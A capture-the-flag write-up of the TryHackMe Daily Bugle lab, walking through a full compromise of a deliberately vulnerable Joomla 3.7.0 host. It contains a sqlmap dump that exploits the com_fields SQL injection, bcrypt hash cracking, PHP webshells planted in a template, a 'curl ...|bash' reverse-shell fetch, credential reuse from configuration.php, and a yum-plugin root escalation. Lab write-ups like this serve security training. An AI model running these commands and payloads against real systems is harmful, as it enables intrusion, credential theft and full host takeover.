







#tryhackme #linux #joomla #cms #autorecon #mysql #SQL-Injection #nmap #hashcat #php #webshell #sudo #grep #yum 

# Recon
---
## Autorecon

```bash
sudo $(which autorecon) -vv -m 3 --dirbuster.threads 50 --reports markdown --dirbuster.tool gobuster 10.10.74.153
```

## Nmap

```bash
# Nmap 7.94 scan initiated Tue Jun 20 08:30:14 2023 as: nmap -vv --reason -Pn -T4 -sV -sC --version-all -A --osscan-guess -p- -oN /home/kali/thm/daily-bugle/results/10.10.74.153/scans/_full_tcp_nmap.txt -oX /home/kali/thm/daily-bugle/results/10.10.74.153/scans/xml/_full_tcp_nmap.xml 10.10.74.153
Nmap scan report for 10.10.74.153
Host is up, received user-set (0.20s latency).
Scanned at 2023-06-20 08:30:14 EDT for 405s
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE REASON         VERSION
22/tcp   open  ssh     syn-ack ttl 63 OpenSSH 7.4 (protocol 2.0)
| ssh-hostkey:
|   2048 68:ed:7b:19:7f:ed:14:e6:18:98:6d:c5:88:30:aa:e9 (RSA)
| ssh-rsa AAAAB3NzaC1yc2EAAAADAQABAAABAQCbp89KqmXj7Xx84uhisjiT7pGPYepXVTr4MnPu1P4fnlWzevm6BjeQgDBnoRVhddsjHhI1k+xdnahjcv6kykfT3mSeljfy+jRc+2ejMB95oK2AGycavgOfF4FLPYtd5J97WqRmu2ZC2sQUvbGMUsrNaKLAVdWRIqO5OO07WIGtr3c2ZsM417TTcTsSh1Cjhx3F+gbgi0BbBAN3sQqySa91AFruPA+m0R9JnDX5rzXmhWwzAM1Y8R72c4XKXRXdQT9szyyEiEwaXyT0p6XiaaDyxT2WMXTZEBSUKOHUQiUhX7JjBaeVvuX4ITG+W8zpZ6uXUrUySytuzMXlPyfMBy8B
|   256 5c:d6:82:da:b2:19:e3:37:99:fb:96:82:08:70:ee:9d (ECDSA)
| ecdsa-sha2-nistp256 AAAAE2VjZHNhLXNoYTItbmlzdHAyNTYAAAAIbmlzdHAyNTYAAABBBKb+wNoVp40Na4/Ycep7p++QQiOmDvP550H86ivDdM/7XF9mqOfdhWK0rrvkwq9EDZqibDZr3vL8MtwuMVV5Src=
|   256 d2:a9:75:cf:2f:1e:f5:44:4f:0b:13:c2:0f:d7:37:cc (ED25519)
|_ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIP4TcvlwCGpiawPyNCkuXTK5CCpat+Bv8LycyNdiTJHX
80/tcp   open  http    syn-ack ttl 63 Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
|_http-favicon: Unknown favicon MD5: 1194D7D32448E1F90741A97B42AF91FA
| http-robots.txt: 15 disallowed entries
| /joomla/administrator/ /administrator/ /bin/ /cache/
| /cli/ /components/ /includes/ /installation/ /language/
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
| http-methods:
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-title: Home
|_http-generator: Joomla! - Open Source Content Management
3306/tcp open  mysql   syn-ack ttl 63 MariaDB (unauthorized)
OS fingerprint not ideal because: maxTimingRatio (3.136000e+00) is greater than 1.4
Aggressive OS guesses: Linux 3.10 - 3.13 (96%), ASUS RT-N56U WAP (Linux 3.4) (95%), Linux 3.16 (95%), Linux 5.4 (93%), Linux 3.1 (93%), Linux 3.2 (93%), AXIS 210A or 211 Network Camera (Linux 2.6.17) (93%), Linux 3.10 (93%), Linux 3.12 (93%), Linux 3.19 (93%)
No exact OS matches for host (test conditions non-ideal).
TCP/IP fingerprint:
SCAN(V=7.94%E=4%D=6/20%OT=22%CT=1%CU=35931%PV=Y%DS=2%DC=T%G=N%TM=64919D6B%P=x86_64-pc-linux-gnu)
SEQ(SP=102%GCD=1%ISR=10E%TI=Z%II=I%TS=A)
SEQ(SP=103%GCD=1%ISR=10E%TI=Z%CI=I%II=I%TS=A)
SEQ(SP=107%GCD=2%ISR=109%TI=Z%TS=A)
OPS(O1=M508ST11NW7%O2=M508ST11NW7%O3=M508NNT11NW7%O4=M508ST11NW7%O5=M508ST11NW7%O6=M508ST11)
WIN(W1=68DF%W2=68DF%W3=68DF%W4=68DF%W5=68DF%W6=68DF)
ECN(R=N)
ECN(R=Y%DF=Y%T=40%W=6903%O=M508NNSNW7%CC=Y%Q=)
T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)
T2(R=N)
T3(R=N)
T4(R=N)
T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T5(R=N)
T5(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
T6(R=N)
T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)
T7(R=N)
T7(R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)
U1(R=Y%DF=N%T=40%IPL=164%UN=0%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)
IE(R=Y%DFI=N%T=40%CD=S)

Uptime guess: 0.003 days (since Tue Jun 20 08:32:32 2023)
Network Distance: 2 hops
TCP Sequence Prediction: Difficulty=263 (Good luck!)
IP ID Sequence Generation: All zeros

TRACEROUTE (using port 1720/tcp)
HOP RTT       ADDRESS
1   278.73 ms 10.11.0.1
2   280.33 ms 10.10.74.153

Read data files from: /usr/bin/../share/nmap
OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
# Nmap done at Tue Jun 20 08:36:59 2023 -- 1 IP address (1 host up) scanned in 405.05 seconds
```

## 80 - Joomla CMS

### Dir

```bash
┌──(kali㉿kali)-[~/…/daily-bugle/results/10.10.74.153/scans]
└─$ cat tcp80/tcp_80_http_gobuster_dirbuster.txt|grep -v 403
http://10.10.74.153:80/LICENSE.txt          (Status: 200) [Size: 18092]
http://10.10.74.153:80/README.txt           (Status: 200) [Size: 4494]
http://10.10.74.153:80/administrator        (Status: 200) [Size: 4843]
http://10.10.74.153:80/bin                  (Status: 200) [Size: 31]
http://10.10.74.153:80/cache                (Status: 200) [Size: 31]
http://10.10.74.153:80/components           (Status: 200) [Size: 31]
http://10.10.74.153:80/configuration.php    (Status: 200) [Size: 0]
http://10.10.74.153:80/images               (Status: 200) [Size: 31]
http://10.10.74.153:80/includes             (Status: 200) [Size: 31]
http://10.10.74.153:80/index.php            (Status: 200) [Size: 9288]
http://10.10.74.153:80/language             (Status: 200) [Size: 31]
http://10.10.74.153:80/layouts              (Status: 200) [Size: 31]
http://10.10.74.153:80/libraries            (Status: 200) [Size: 31]
http://10.10.74.153:80/media                (Status: 200) [Size: 31]
http://10.10.74.153:80/modules              (Status: 200) [Size: 31]
http://10.10.74.153:80/plugins              (Status: 200) [Size: 31]
http://10.10.74.153:80/robots.txt           (Status: 200) [Size: 836]
http://10.10.74.153:80/robots.txt           (Status: 200) [Size: 836]
http://10.10.74.153:80/templates            (Status: 200) [Size: 31]
http://10.10.74.153:80/tmp                  (Status: 200) [Size: 31]
http://10.10.74.153:80/web.config.txt       (Status: 200) [Size: 1690]
http://10.10.74.153:80/cli                  (Status: 200) [Size: 31]
http://10.10.74.153:80/htaccess.txt         (Status: 200) [Size: 3005]
```

# User Flag
---

## Exploit Joomla 3.7

> [!NOTE] Hacktricks - Joomla
> https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla

### Identify joomla version

`/README.txt` will reveal version history

```css
1- What is this?
	* This is a Joomla! installation/upgrade package to version 3.x
	* Joomla! Official site: https://www.joomla.org
	* Joomla! 3.7 version history - https://docs.joomla.org/Joomla_3.7_version_history
	* Detailed changes in the Changelog: https://github.com/joomla/joomla-cms/commits/master
```

- `/administrator/manifests/files/joomla.xml` shows the exact version



- `Joomla! 3.7.0`

### Exploit joomla 3.7.0

#### Searchsploit

```bash
┌──(kali㉿kali)-[~/thm/daily-bugle]
└─$ searchsploit joomla 3.7
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
 Exploit Title                                                                                                                                                                 |  Path
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Joomla! 3.7 - SQL Injection                                                                                                                                                    | php/remote/44227.php
Joomla! 3.7.0 - 'com_fields' SQL Injection                                                                                                                                     | php/webapps/42033.txt
Joomla! Component ARI Quiz 3.7.4 - SQL Injection                                                                                                                               | php/webapps/46769.txt
Joomla! Component com_realestatemanager 3.7 - SQL Injection                                                                                                                    | php/webapps/38445.txt
Joomla! Component Easydiscuss < 4.0.21 - Cross-Site Scripting                                                                                                                  | php/webapps/43488.txt
Joomla! Component J2Store < 3.3.7 - SQL Injection                                                                                                                              | php/webapps/46467.txt
Joomla! Component JomEstate PRO 3.7 - 'id' SQL Injection                                                                                                                       | php/webapps/44117.txt
Joomla! Component Jtag Members Directory 5.3.7 - Arbitrary File Download                                                                                                       | php/webapps/43913.txt
Joomla! Component Quiz Deluxe 3.7.4 - SQL Injection                                                                                                                            | php/webapps/42589.txt
------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- ---------------------------------
Shellcodes: No Results
Papers: No Results
```

```bash
┌──(kali㉿kali)-[~/thm/daily-bugle]
└─$ searchsploit -x 42033
```



Visist `http://10.10.74.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=updatexml%27`



The error indicates that it's vulnerable to SQLI

```bash
sqlmap -u "http://10.10.74.153/index.php?option=com_fields&view=fields&layout=modal&list[fullordering]=1" -p "list[fullordering]" -D joomla -T '#__users' --dump
```

```bash
Database: joomla
Table: #__users
[1 entry]
+-----+---------------------+------------+----------+--------------------------------------------------------------+
| id  | email               | name       | username | password                                                     |
+-----+---------------------+------------+----------+--------------------------------------------------------------+
| 811 | jonah@tryhackme.com | Super User | jonah    | $2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm |
+-----+---------------------+------------+----------+--------------------------------------------------------------+
```

#### From Nmap Script scan and Google Result

```bash
┌──(kali㉿kali)-[~/…/daily-bugle/results/10.10.74.153/scans]
└─$ cat _patterns.log
Matched Pattern: unauthorized

Matched Pattern: Powered-By: PHP/5.6.40

CVE Identified: CVE-2000-0649

Matched Pattern: unauthorized

Nmap script found a potential vulnerability. (State: VULNERABLE)

CVE Identified: CVE-2017-8917

CVE Identified: CVE-2017-8917

Identified HTTP Server: Apache/2.4.6 (CentOS) PHP/5.6.40

Identified HTTP Server: Apache/2.4.6 (CentOS) PHP/5.6.40

Matched Pattern: unauthorized
```

```bash
┌──(kali㉿kali)-[~/…/results/10.10.74.153/scans/tcp80]
└─$ cat tcp_80_http_nmap.txt | grep vulnerable -E10 -i
# Nmap 7.94 scan initiated Tue Jun 20 08:40:49 2023 as: nmap -vv --reason -Pn -T4 -sV -p 80 "--script=banner,(http* or ssl*) and not (brute or broadcast or dos or external or http-slowloris* or fuzzer)" -oN /home/kali/thm/daily-bugle/results/10.10.74.153/scans/tcp80/tcp_80_http_nmap.txt -oX /home/kali/thm/daily-bugle/results/10.10.74.153/scans/tcp80/xml/tcp_80_http_nmap.xml 10.10.74.153
Nmap scan report for 10.10.74.153
Host is up, received user-set (0.28s latency).
Scanned at 2023-06-20 08:40:49 EDT for 268s

PORT   STATE SERVICE REASON         VERSION
80/tcp open  http    syn-ack ttl 63 Apache httpd 2.4.6 ((CentOS) PHP/5.6.40)
| http-vuln-cve2017-8917:
|   VULNERABLE:
|   Joomla! 3.7.0 'com_fields' SQL Injection Vulnerability
|     State: VULNERABLE
|     IDs:  CVE:CVE-2017-8917
|     Risk factor: High  CVSSv3: 9.8 (CRITICAL) (CVSS:3.0/AV:N/AC:L/PR:N/UI:N/S:U/C:H/I:H/A:H)
|       An SQL injection vulnerability in Joomla! 3.7.x before 3.7.1 allows attackers
|       to execute aribitrary SQL commands via unspecified vectors.
|
|     Disclosure date: 2017-05-17
|     Extra information:
|       User: root@localhost
|     References:
|       https://blog.sucuri.net/2017/05/sql-injection-vulnerability-joomla-3-7.html
--
|_  Supported Methods: GET HEAD POST OPTIONS
|_http-server-header: Apache/2.4.6 (CentOS) PHP/5.6.40
|_http-fetch: Please enter the complete path of the directory to save data in.
|_http-title: Home
| http-robots.txt: 15 disallowed entries
| /joomla/administrator/ /administrator/ /bin/ /cache/
| /cli/ /components/ /includes/ /installation/ /language/
|_/layouts/ /libraries/ /logs/ /modules/ /plugins/ /tmp/
|_http-generator: Joomla! - Open Source Content Management
|_http-drupal-enum: Nothing found amongst the top 100 resources,use --script-args number=<number|all> for deeper analysis)
|_http-litespeed-sourcecode-download: Request with null byte did not work. This web server might not be vulnerable
| http-security-headers:
|   Cache_Control:
|     Header: Cache-Control: no-store, no-cache, must-revalidate, post-check=0, pre-check=0
|   Pragma:
|     Header: Pragma: no-cache
|   Expires:
|_    Header: Expires: Wed, 17 Aug 2005 00:00:00 GMT
| http-backup-finder:
| Spidering limited to: maxdepth=3; maxpagecount=20; withinhost=10.10.74.153
|   http://10.10.74.153:80/index.php/2-uncategorised/index.php/2-uncategorised/1-spider-man-robs-bank~
```

Found a POC for CVE-2017-0517

> https://github.com/stefanlucas/Exploit-Joomla



## Crack jonah's hash (bcrypt)

```bash
echo '$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm' > /media/sf_kali-share/tmp/users.hash
```

```bash
hashcat D:\kali-share\tmp\users.hash D:\kali-share\opt\rockyou.txt -m 3200
```

Result:

```bash
$2y$10$0veO/JSFh4389Lluc4Xya.dfy2MF.bZhz0jVMw.V.d3p12kBtZutm:spiderman123
```

## Get Reverse Shell

After getting administrator account of Joomla CMS, it's easy to RCE

> Refer - https://book.hacktricks.xyz/network-services-pentesting/pentesting-web/joomla#rce

Check if php is allowed







Edit `error.php`

- Put a short php webshell

```php
<?=`$_GET[1]`?>
```

```bash
┌──(kali㉿kali)-[~/thm/daily-bugle]
└─$ http -b "http://10.10.145.131/templates/protostar/error.php?1=ping 10.11.19.145 -c 1"
```

- or a webshell with output

```bash
<?php echo system($_GET["c"]) ?>
```

```bash
┌──(kali㉿kali)-[~/thm/daily-bugle]
└─$ http -b "http://10.10.145.131/templates/protostar/error.php?c=id"
uid=48(apache) gid=48(apache) groups=48(apache)
uid=48(apache) gid=48(apache) groups=48(apache)
```

Get reverse shell

```bash
┌──(kali㉿kali)-[~/thm/daily-bugle]
└─$ mkdir www && cd www

┌──(kali㉿kali)-[~/thm/daily-bugle/www]
└─$ ln -s ~/scripts/www-revshell/index.html

┌──(kali㉿kali)-[~/thm/daily-bugle/www]
└─$ python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
```

```bash
http -b "http://10.10.145.131/templates/protostar/error.php?c=curl 10.11.19.145|bash"
```

```bash
┌──(kali㉿kali)-[~/thm/daily-bugle]
└─$ nc -lvnp 1111
listening on [any] 1111 ...
connect to [10.11.19.145] from (UNKNOWN) [10.10.145.131] 35628
bash: no job control in this shell
bash-4.2$ id
id
uid=48(apache) gid=48(apache) groups=48(apache)
bash-4.2$
```

Stabilize shell

```bash
bash-4.2$ python -c "import pty;pty.spawn('/bin/bash')"
python -c "import pty;pty.spawn('/bin/bash')"
bash-4.2$ ^Z
zsh: suspended  nc -lvnp 1111

┌──(kali㉿kali)-[~/thm/daily-bugle]
└─$ stty raw -echo;fg
[1]  + continued  nc -lvnp 1111

bash-4.2$ ^C
```

## From apache to jjameson

Users

```bash
bash-4.2$ cat /etc/passwd|grep sh$
root:x:0:0:root:/root:/bin/bash
jjameson:x:1000:1000:Jonah Jameson:/home/jjameson:/bin/bash
```

Find sensitive files like configs

```bash
bash-4.2$ pwd
/var/www/html/templates/protostar
bash-4.2$ cd ../..
bash-4.2$
bash-4.2$ grep -rin pass
...
configuration.php:17:   public $password = 'nv5uz9r3ZEDzVjNu';
...
```

```bash
bash-4.2$ cat configuration.php
...
  public $dbtype = 'mysqli';
        public $host = 'localhost';
        public $user = 'root';
        public $password = 'nv5uz9r3ZEDzVjNu';
        public $db = 'joomla';
        public $dbprefix = 'fb9j5_';
        public $live_site = '';
        public $secret = 'UAMBRWzHO3oFPmVC';
...
```

Try login with the password : `nv5uz9r3ZEDzVjNu` for `root` and `jjameson`

```bash
bash-4.2$ su - jjameson
Password:
Last login: Mon Dec 16 05:14:55 EST 2019 from netwars on pts/0
[jjameson@dailybugle ~]$ id
uid=1000(jjameson) gid=1000(jjameson) groups=1000(jjameson)
[jjameson@dailybugle ~]$
```

```bash
┌──(kali㉿kali)-[~/thm/daily-bugle]
└─$ sshpass -p nv5uz9r3ZEDzVjNu ssh -o "StrictHostKeyChecking no" jjameson@10.10.145.131
Warning: Permanently added '10.10.145.131' (ED25519) to the list of known hosts.
Last login: Thu Jun 22 05:33:20 2023
[jjameson@dailybugle ~]$ find .
.
./.bash_logout
./.bash_profile
./.bashrc
./.bash_history
./user.txt
[jjameson@dailybugle ~]$ cat user.txt
27a260fe3cba712cfdedb1c86d80442e
[jjameson@dailybugle ~]$
```

# Root Flag
---

```bash
[jjameson@dailybugle ~]$ sudo -l
Matching Defaults entries for jjameson on dailybugle:
    !visiblepw, always_set_home, match_group_by_gid, always_query_group_plugin, env_reset, env_keep="COLORS DISPLAY HOSTNAME HISTSIZE KDEDIR LS_COLORS", env_keep+="MAIL PS1 PS2 QTDIR USERNAME LANG LC_ADDRESS
    LC_CTYPE", env_keep+="LC_COLLATE LC_IDENTIFICATION LC_MEASUREMENT LC_MESSAGES", env_keep+="LC_MONETARY LC_NAME LC_NUMERIC LC_PAPER LC_TELEPHONE", env_keep+="LC_TIME LC_ALL LANGUAGE LINGUAS _XKB_CHARSET
    XAUTHORITY", secure_path=/sbin\:/bin\:/usr/sbin\:/usr/bin

User jjameson may run the following commands on dailybugle:
    (ALL) NOPASSWD: /usr/bin/yum
[jjameson@dailybugle ~]$
```

> https://gtfobins.github.io/gtfobins/yum/

```bash
TF=$(mktemp -d)
cat >$TF/x<<EOF
[main]
plugins=1
pluginpath=$TF
pluginconfpath=$TF
EOF

cat >$TF/y.conf<<EOF
[main]
enabled=1
EOF

cat >$TF/y.py<<EOF
import os
import yum
from yum.plugins import PluginYumExit, TYPE_CORE, TYPE_INTERACTIVE
requires_api_version='2.1'
def init_hook(conduit):
  os.execl('/bin/sh','/bin/sh')
EOF
```

```bash
[jjameson@dailybugle ~]$ sudo yum -c $TF/x --enableplugin=y
Loaded plugins: y
No plugin match for: y
sh-4.2# id
uid=0(root) gid=0(root) groups=0(root)
sh-4.2# cat /root/root.txt
eec3d53292b1821868266858d7fa6f79
sh-4.2#
```